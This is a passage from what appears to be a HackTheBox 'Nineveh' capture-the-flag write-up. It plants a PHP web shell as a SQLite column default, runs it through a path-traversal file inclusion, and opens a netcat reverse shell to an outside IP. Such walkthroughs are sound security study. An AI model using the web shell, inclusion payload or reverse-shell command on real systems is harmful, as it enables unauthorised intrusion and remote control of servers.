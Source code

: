 ![Create table](/assets/images/HTB-Nineveh/1.b%20Create%20table.png)

Name of the field doesn't matter, type has to be set to text and default value will be the PHP code

```php
<?php system($_GET["cmd"]);?>
```

We can use the local file inclusion to verify that our code is executed

```http
GET /department/manage.php?notes=files/ninevehNotes/../../../../../../var/tmp/shell.php&cmd=whoami HTTP/1.1

SQLite format 3@  -�
��b�#tableshellshellCREATE TABLE 'shell' ('field' TEXT default 'www-data
')

```

We can also use this to start a reverse shell

```http
GET /department/manage.php?notes=files/ninevehNotes/../../../../../../var/tmp/shell.php&cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.16+444+>/tmp/f HTTP/1.1
```
